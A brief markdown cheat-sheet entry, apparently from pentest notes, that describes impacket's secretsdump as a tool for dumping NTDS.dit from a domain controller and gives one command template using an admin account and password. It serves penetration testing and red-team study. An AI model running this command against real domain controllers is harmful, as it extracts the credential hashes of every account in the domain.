 # impacket-secretsdump - *de facto tool for remotely dumping NTDS.dit from a Domain Controller*

## Dump NTDS.dit from domain controller with admin account and password

```bash
secretsdump.py <DNS domain name>/<username>:<password>@<domain controller IP>
```
